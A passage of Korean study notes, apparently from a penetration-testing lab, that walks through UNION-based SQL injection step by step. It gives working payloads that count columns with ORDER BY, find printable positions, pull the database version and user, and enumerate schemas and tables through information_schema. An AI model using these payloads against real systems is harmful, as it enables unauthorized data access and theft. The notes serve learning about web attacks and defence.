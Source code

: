3. order by 구문을 통해 컬럼 개수 식별
    
    ‘ order by 9# → 출력
    
    ‘ order by 10# → 에러
    
    ⇒ 컬럼 개수 : 9개
    
4. UNION 구문 사용 → 컬럼 개수가 동일해야 출력 가능!
    
    ‘ union select null,null,null,null,null,null,null,null,null#
    
5. 출력 포지션 파악→null값을 하나씩 문자열로 바꿔 어느 컬럼이 출력 가능한지 확인
    
    ‘ union select ‘test’,null,null,null,null,null,null,null,null#
    
    → 출력값 : No 위치에 test 출력
    
    ‘ union select null,’test’,null,null,null,null,null,null,null#
    
    → 출력값 : Title 위치에 test 출력
    
    공격을 효율적으로 하기 위해 select 문을 거짓으로 하여 레코드 출력 방지
    
      
    
    데이터 조회 공격 - 모든 데이터 조회 공격 기법 동일
    
    1) 기본 정보 목록화 - 버전, 사용자, 현재 데이터베이스명
    
    ‘ and 1=2 union select system_user(),version(),null,null,database(),null,null,null,null# 입력시 데이터 조회
    
    ![[90. Settings/92. Attachments/Untitled 22.png|Untitled 22.png]]
    
    위 사진과 같은 결과값이 출력
    
    2) 메타 데이터 목록화 - 데이터 사전
    
    MYSQL : infomation_schema.schemata, infomation_schema.tables,
    
    infomation_schema.columns
    
    MSSQL : master.sys.databases, [db].sys.objects, [db].sys.columns
    
    ORACLE : all_tables, all_tab_columns
    
      
    
    *데이터베이스 목록화
    
    ‘ and 1=2 union select null,schema_name,null,null,null,null,null,null,null from information_schema.schemata#
    
    ![[90. Settings/92. Attachments/Untitled 1 4.png|Untitled 1 4.png]]
    
      
    
    *테이블 목록화
    
    ‘ and 1=2 union select null,table_name,null,null,null,null,null,null,null from information_schema.tables where table_schema=’pentest’#
    
    ![[90. Settings/92. Attachments/Untitled 2 5.png|Untitled 2 5.png]]
    
      